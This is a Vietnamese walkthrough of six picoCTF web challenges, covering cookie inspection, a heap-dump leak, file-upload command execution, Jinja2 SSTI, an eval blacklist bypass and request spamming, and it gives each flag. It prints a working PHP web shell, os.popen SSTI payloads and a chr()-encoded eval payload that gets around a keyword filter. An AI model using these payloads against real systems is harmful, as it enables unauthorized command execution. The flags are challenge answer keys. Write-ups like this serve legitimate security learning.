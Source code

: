 # Cookie Monster Secret Recipe, head-dump, n0s4n1ty 1, SSTI1, 3v@l, Pachinko

# Cookie Monster Secret Recipe
![image](https://github.com/user-attachments/assets/8dc2b4ac-a447-475f-9119-0da6cbcdb178)

- Đề bài nhắc đến việc cookie được giấu ở đâu đó trên website, nghĩ ngay đến việc vào phần cookie trong inspect element trước khi nhấn đăng nhập sẽ không có gì

![image](https://github.com/user-attachments/assets/ffdcb526-50a9-405d-ad87-9b4588325b1a)

- Nhập tk, mk linh tinh vào và value của phần cookie sẽ hiện ra một đoạn mã base64, đó là flag

![image](https://github.com/user-attachments/assets/a54f2698-8deb-4ef6-b14d-a561cabc1b52)

`picoCTF{c00k1e_m0nster_l0ves_c00kies_AC8FCD75}`

# head-dump
![image](https://github.com/user-attachments/assets/5404768f-6217-4ef8-ba16-f8e1eefc7fd8)

- Bài có nhắc đến API documentation, và nếu lướt qua phần source của web ta thấy một đường dẫn `http://verbal-sleep.picoctf.net:60220/api-docs/`, và dựa vào tên bài tải về phần get headdump file `heapdump-1742199561569.heapsnapshot`

![image](https://github.com/user-attachments/assets/6aad8457-ad03-4162-9250-50e4636b2fc9)

- String ra flag

![image](https://github.com/user-attachments/assets/45d1b318-a45f-4aaa-98b6-7e233e5861d3)

`picoCTF{Pat!3nt_15_Th3_K3y_388d10f7}`

# n0s4n1ty 1
![image](https://github.com/user-attachments/assets/bcace112-b427-4372-bf36-d3b1b647423d)

- Qua đề bài, xem web và đọc hint1: File upload was not sanitized, ta biết được rằng có thể upload mọi file lên trên web này và file sẽ được lưu vào `/uploads/xxx`, vậy flag sẽ được lưu trữ ở đâu đó trong server, nếu muốn tìm được và đọc `flag.txt` ta phải có cách để thực hiện lệnh trên server
- Để đạt được điều đó cần upload một file `.php` sau đó thực hiện các lệnh với superuser

``` php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
- Vào `http://standard-pizzas.picoctf.net:52325/uploads/hi.php` và tìm file `flag.txt` trong thư mục `/root` `sudo ls -la /root` và đọc nó

![image](https://github.com/user-attachments/assets/e8c95f69-d6ca-4ec5-861e-384125480f55)

![image](https://github.com/user-attachments/assets/bba86826-f315-43a7-b334-1937f287a4e4)

`picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}`

# SSTI1
![image](https://github.com/user-attachments/assets/821c1201-4a1b-4522-b23f-edc9b35b3626)

- Đề bài đã gợi ý khá rõ rằng lỗ hổng ở đây sẽ là SSTI vậy nên ta chỉ cần xác định server này đang sử dụng template engine là gì, sau đó thực hiện lệnh để đọc flag trên server
- Thử `{{7*7}}` và server announce 49 vậy là server đang sử dụng Jinja2
- Sau đó e nhờ chatgpt viết payload SSTI
- `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls /').read() }}` để list các thư mục trong server, thấy một thư mục có tên `challenge`
- `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -la /challenge').read() }}` để xem thư mục `challenge` thấy file `flag`
- `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /challenge/flag').read() }}` để đọc `flag`

![image](https://github.com/user-attachments/assets/bb83f8ba-59f1-4090-9be6-a5d73d68a0bd)

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}`

# 3v@l
![image](https://github.com/user-attachments/assets/9e33e61c-4abf-418a-9b78-9df937b5927d)

- Cái web tính số nợ này sử dụng `eval()` để tính toán và tạo ra lỗ hổng, nhưng nếu đọc source code của web ta biết được nó chặn gần như hầu hết mọi lệnh, và các cách encode chữ cái để bypass blacklist  = regex
```
Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```
- Cái blacklist này chặn Hex, Unicode, URL encoding; chặn tìm mở rộng file(.exe,...), chặn sử dụng "\" và "/", chặn sử dụng ".."
- Nhiệm vụ của cta ở đây là tìm cách để bypass các blacklist trên để đọc file `/flag.txt`
- Sau khi tìm hiểu thấy được cái black list chưa chặn lệnh `chr()` vậy nên ta có thể sử dụng `chr()` từng kí tự một và đọc `/flag.txt`
- Ví dụ nhập `chr(104) + chr(101) + chr(108) + chr(108) + chr(111)`
![image](https://github.com/user-attachments/assets/5626869e-0b11-465d-95cc-aade1b0c4786)
- Đến đây e lại nhờ chatgpt viết payload để đọc file
``` py
getattr(
    __import__(chr(111) + chr(115)), 
    chr(112) + chr(111) + chr(112) + chr(101) + chr(110)
)(
    chr(99) + chr(97) + chr(116) + chr(32) + chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)
).read()
```
![image](https://github.com/user-attachments/assets/cfd50c20-6c67-49e5-9d87-63b12cd3dcde)

`picoCTF{D0nt_Use_Unsecure_f@nctions0efe84e3}`

# Pachinko
- Bài này e thấy mng trên discord bảo chỉ cần spam `Submit circute` và f5 ra flag nên làm theo và ra thật 🐧
- Cho vào repeater và spam send đến khi ra flag

![image](https://github.com/user-attachments/assets/f7ffacc6-a0b7-42ef-ade9-e4ae7ba3da43)

`picoCTF{p4ch1nk0_f146_0n3_e947b9d7}`
